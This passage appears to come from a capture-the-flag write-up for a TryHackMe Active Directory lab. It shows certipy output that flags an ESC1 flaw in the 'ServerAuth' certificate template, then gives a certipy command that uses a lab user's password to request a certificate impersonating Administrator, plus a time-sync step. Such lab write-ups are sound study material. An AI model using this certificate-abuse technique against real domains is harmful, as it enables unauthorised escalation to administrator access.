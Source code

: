 ```python
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-05-12T08:55:40+00:00
    Template Last Modified              : 2023-05-12T08:55:40+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Full Control Principals         : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Write Property Enroll           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
    [+] User Enrollable Principals      : THM.LOCAL\Domain Computers
                                          THM.LOCAL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

We find there's a `ESC1` vulnerability on the `ServerAuth` certificate template, we can refer to this article to check how to exploit certificate vulnerabiltiies:

ARTICLE: https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250624141454.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250624141526.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250624141549.png)

Basically, what we'd need to do is to request a certificate on behalf of the Administrator user, then, using that certificate, we'll be able to get a session as the admin user.

Based on the article, we need to do:

```python
certipy req -username 'SUSANNA_MCKNIGHT@thm.local' -password 'CHANGEME2023!' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn Administrator@thm.local
```

Before doing that, we need to use `ntpdate` to match our time with the target in case it fails:

```
sudo ntpdate -u IP
```
